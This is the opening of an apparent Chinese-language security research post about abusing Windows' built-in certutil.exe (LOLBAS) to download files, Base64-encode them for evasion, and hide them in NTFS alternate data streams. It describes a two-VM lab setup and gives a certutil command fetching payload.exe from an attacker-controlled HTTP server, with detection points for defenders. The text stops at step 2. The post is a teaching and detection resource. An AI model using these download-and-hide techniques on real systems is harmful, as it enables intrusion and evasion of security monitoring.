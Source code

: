 ```yaml
---
title: "From LOL to LOLBAS - Win10/11 Attack"
published: 2025-04-30T15:41:46.000Z
description: ""
tags: [Research, Windows, LOLBAS]
category: Research
draft: false
---
```

### **Certutil 的障眼法 - 下載、編碼/解碼與藏身術 (ADS)**

**目標：**
演示如何利用 Windows 內建的 `certutil.exe` 工具，執行檔案下載、Base64 編碼/解碼（這個是為了規避偵測），以及將檔案隱藏到 NTFS 替代資料流 (Alternate Data Stream, ADS) 中，最後嘗試從 ADS 執行。

**所需環境：**

1. **攻擊者機器 (Attacker VM):**
   * 能運行一個簡單的 HTTP 伺服器就好。
   * 準備一個「惡意」負載檔案，為了安全演示，這邊使用的是小算盤。找到 `calc.exe` (通常在 `C:\Windows\System32\`)，複製一份並重新命名為 `payload.exe`。
   * 記下攻擊者機器的 IP 位址 (`<attacker_ip>`)。
2. **受害者機器 (Victim VM):**
   * Windows 10 或 Windows 11 虛擬機。
   * 確保網路設定允許 Victim VM 訪問 Attacker VM 的 HTTP 服務。

**攻擊者機器操作：**

1. 將準備好的 `payload.exe` 放在一個資料夾中。
2. 在該資料夾下開啟 Terminal。
3. 啟動一個簡單的 HTTP 伺服器。
   ```bash
   python -m http.server 8000
   ```

   保持此伺服器運行。

**受害者機器操作：**

* 開啟「命令提示字元」(cmd.exe)。建議切換到一個方便操作的目錄（畫面才不會亂亂的w），例如 `C:\Users\Public\Downloads`。
  ```cmd
  cd C:\Users\Public\Downloads
  ```

1. **步驟 1：使用 Certutil 下載檔案**

   * **指令：** (將 `<attacker_ip>` 替換為攻擊者機器 IP)
     ```cmd
     certutil.exe -urlcache -split -f http://<attacker_ip>:8000/payload.exe payload.exe
     ```

     * **說明：** `-urlcache -split -f` 是 `certutil` 用於從 URL 下載檔案的參數組合。
   * **預期結果：** Terminal 顯示下載成功。在 `C:\Users\Public\Downloads` 目錄下會出現 `payload.exe` 檔案。執行應該會彈出計算機。
   * **偵測點：** 監控 `certutil.exe` 的程序創建事件 (Sysmon EID 1 / Security 4688)，注意命令列包含 `-urlcache`, `-split`, `-f` 及 URL。監控 `certutil.exe` 的網路連線 (Sysmon EID 3)，注意其 User-Agent (`Microsoft-CryptoAPI/10.0` 或 `CertUtil URL Agent`)。檢查 `CryptnetUrlCache` 目錄是否有下載痕跡。
2. **步驟 2：使用 Certutil 將檔案編碼為 Base64**
